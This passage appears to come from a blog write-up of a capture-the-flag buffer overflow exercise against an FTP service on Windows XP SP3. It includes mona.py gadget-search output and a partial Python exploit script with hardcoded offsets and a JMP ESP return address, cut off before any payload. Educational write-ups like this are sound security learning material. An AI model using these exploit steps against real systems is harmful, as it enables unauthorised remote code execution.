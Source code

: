 77DEF0B2     0x77def0b2 : call esp |  {PAGE_EXECUTE_READ} [ADVAPI32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\ADVAPI32.dll)
77E18153     0x77e18153 : call esp |  {PAGE_EXECUTE_READ} [ADVAPI32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\ADVAPI32.dll)
77E1C23B     0x77e1c23b : call esp |  {PAGE_EXECUTE_READ} [ADVAPI32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\ADVAPI32.dll)
0BADF00D   ... Please wait while I'm processing all remaining results and writing everything to file...
0BADF00D   [+] Done. Only the first 20 pointers are shown here. For more pointers, open jmp.txt...
0BADF00D       Found a total of 33 pointers
0BADF00D
           [+] This mona.py action took 0:00:01.281000
{% endcodeblock %}

Isn't that just sweet? Lots of options here, though it does tie us down to a particular platform and using addresses like these will not work on Vista and later thanks to ASLR. Perhaps we can come up with a solution to this down the track.

I dug a little deeper in `jmp.txt` which contained all the addresses, and decided to settle on `0x7e4456f7` (a `JMP ESP` instruction) which is located in `user32.dll`. I chose this one because the only byte that isn't in the `ASCII` table is the last one, and it was my attempt and minimising the possibility of a bad character causing problems. I modified the exploit so that `EIP` would contain this value, and changed the code in `ESP` so that it would break once the jump had been performed. I also starting building in the support for multiple platforms for easy adjustment later on.

{% codeblock sploit.py version 3 lang:python %}
#!/usr/bin/python

import socket, struct

host = '10.1.10.34'
port = 21

def read_file(path):
  with open(path, 'r') as f:
    return f.read()

def pwn(payload):
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))
  s.recv(2048)
  s.send(payload)
  s.shutdown
  s.close

max_size = 365

offsets = {
  'SC': 266,
  'EIP': 294,
  'ESP': 302,
}

# the start of our collection of supported platforms
targets = [
  { 'Name': 'Windows XP SP3', 'JMPESP': 0x7e4456f7 }
]


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux
